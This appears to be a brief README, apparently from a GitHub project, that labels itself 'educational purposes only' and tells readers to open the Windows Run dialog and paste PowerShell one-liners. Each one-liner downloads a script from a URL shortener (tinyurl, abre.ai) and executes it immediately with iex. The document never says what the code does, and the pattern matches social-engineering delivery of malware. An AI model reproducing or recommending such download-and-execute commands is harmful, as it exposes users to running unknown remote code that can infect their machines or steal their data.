 educational propouses only.

For install:
Win + R and paste this:

option 1:
```powershell "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```
(fast)

option 2:
```powershell "iex(iwr abre.ai/-i -UseB)"```
